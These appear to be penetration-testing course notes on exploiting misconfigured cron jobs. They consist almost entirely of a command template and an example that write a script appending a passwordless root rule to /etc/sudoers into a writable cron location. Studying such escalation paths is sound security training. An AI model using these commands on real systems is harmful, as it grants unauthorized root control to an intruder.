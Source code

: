 # Cron Jobs

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

View crontab:
```
crontab -l
```

Exploit:
```
printf '#!/bin/bash\necho "[USERNAME] ALL=NOPASSWD:ALL" >> /etc/sudoers' > [MISCONFIGURED-CRON-LOCATION]
```
Example:
```
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
```
***********************************************************************

### References
Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2